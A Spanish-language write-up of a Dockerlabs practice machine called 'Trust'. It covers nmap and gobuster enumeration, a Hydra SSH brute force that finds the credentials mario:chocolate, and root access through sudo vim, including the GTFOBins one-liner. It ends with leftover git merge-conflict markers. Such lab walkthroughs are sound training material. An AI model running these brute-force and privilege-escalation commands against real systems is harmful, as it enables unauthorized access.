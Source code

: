 # Write-up:
- **Nombre de la máquina:** Trust 
- ***Plataforma:** Dockerlabs 
- **IP:** 172.18.0.2 
- **SO:** Linux 
- **Dificultad:** Muy Fácil 

## 1. RECONOCMIENTO 

Lanzamos ping para comprobar conectividad con máquina víctima.
`ping 172.18.0.2` 
Nos devuelve conectividad y un ttl=64 por lo que deducimos que se trata de un máquina Linux. 

cd4175e4b6f8148930e78659fb109e24edbd703d
![](Imagenes/100.png)

Lanzamos un NMAP para ver los puertos abiertos y los servicios y versiones  que corre por ellos.
`sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -vvv -n -Pn 172.18.0.2  -oN port_scan.txt`
Nos devuelve 2 puertos abiertos:
	:22. con servicio ssh
	:80 con servicio http
	![](Imagenes/101.png)
Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o una clave rsa. En este caso carecemos de información al respecto así qu lo más productivo es pasar a explorar el puerto 80

## 2. Enumeración

### Puerto 80 (HTTP) :
Se accede a la web y se encuentra una página por defecto de Apache. 

![](Imagenes/102.png)

Actuaremos en dos frentes de la ENUMERACIÓN paralelamente:

#### Enumeración manual:
Buscamos directorios comunes de forma manual:

	/robots.txt -->X
	/sitemap.xml--> X
	/login--> X
	/admin--> X
	/panel-->X
	/user-->X
	 /backup, --> X
	 /uploads, --> X
	 /test--> X

No encontramos nada. 


#### Enumeración automática:
Lazamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html de forma automática

`sudo gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,php,html  -k`

Nos devuelve varias rutas, pero hay una llamativa: `/secret.php`
![](Imagenes/103.png)

Estudiamos esta dirección : 172.18.0.2/secret.php 

![](Imagenes/104.png)

Tras un vistazo sólo encontramos como hallazgo relevante el posible nombre de un usuario: `Mario` nada más en la página. Tampoco nada escondido en su código fuente.

![](Imagenes/105.png)

### Puerto 22(SSH)

Si recordamos para acceder al servicio que corre en el puerto :22, el servicio `ssh` necesitamos algún tipo de credencial. Debemos probar si con este usuario que hemos encontrado `Mario` podemos acceder. 

Para ello utilizaremos la fuerza bruta con la herramienta `Hydra` que probará un diccionario con miles de opciones de contraseña para el usuario que le aportamos. 

`hydra -t 4 -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2`

Averigua que para el usuario mario la password es `chocolate`
mario:chocolate

![](Imagenes/106.png)

## 3. Explotación

### 3.1 Acceso inicial:

Con las credenciales descubiertas `mario:chocolate`  nos conectamos al servicio ssh:

`ssh mario@172.18.0.2` 

![](Imagenes/107.png)

### 3.2 Enumeración Interna:
Una vez hemos entrado al sistema debemos hacer algunas comprobaciones.
	¿Qué usuario somos?
	¿A qué grupo pertenecemos?
	¿Qué usuarios hay en el sistema?
	
#### 3.2.1 Comprobaciones

¿Quiénes somos?
`whoami`

 ![](Imagenes/108.png)
 
 ¿A qué grupo pertenecemos?
`id`

![](Imagenes/109.png)
¿Qué usuarios hay en el sistema?
`cd /home`
`ls -la`

![](Imagenes/110.png)

#### 3.2.2 Búsqueda del Vector de Escalada de privilegios:

Tras las comprobaciones iniciales, el siguinete paso es buscar una forma de elevar nuestros privilegios al usuario root. 

Una de las primeras verificaciones es comprobar qué permisos tiene nuestro usuario `mario` para ejecutar comando con `sudo`:
	`sudo -l`

En este caso podemos ejecutar como root  el editor de texto `vim` 
![](Imagenes/111.png)

### 3.3 Explotación y Escalada a Root


Debido a que `vim` es un editor de texto que permite ejecutar comandos de sistema desde si interfaz. Al poder ejecutar `vim` como  `root ` podemos usar esta funcionalidad para lanzar una shell que tendrá privilegios de `root`.

1. Ejecutar `vim` como sudo:
	`sudo vim`
2. Obtener una Shell de Root:
   Un vez dentro de la interfaz de `vim`:
	- primero ejecuta el símbolo `:` Esto hace que aparezca una línea de comando abajo (verás algo como `:` esperando que escribas un comando). 
	  ![](Imagenes/112.png)
	- A continuación  ejecuta el comando  `shell`  escribiéndolo y pulsando enter
	  ![](Imagenes/113.png)
3. Verificamos la escalada 
	   `whoami`
	Somos root 
	![](Imagenes/114.png)

#### 4. Alternativa Bonus para la escalada de privilegios

Si buscamos en GTFOBINS para el binario `vim` , encontramos un método más rápido para la escalada de privilegios.

- Referencia https://gtfobins.github.io/gtfobins/vim/#sudo

Vemos que no requerimos de entrar al modo interactivo de `vim` . Podemos utilizar un argumento en una linea de comando para ejecutar directamente la elevación de privilegios :

![](Imagenes/115.png)
- Comando:
```
sudo vim -c ':!/bin/sh'
```

Como podemos ver al ejecutarlo nos eleva a usuario `root` .
<<<<<<< HEAD
 ![](Imagenes/116.png)
=======
 ![](116.png)
>>>>>>> cd4175e4b6f8148930e78659fb109e24edbd703d
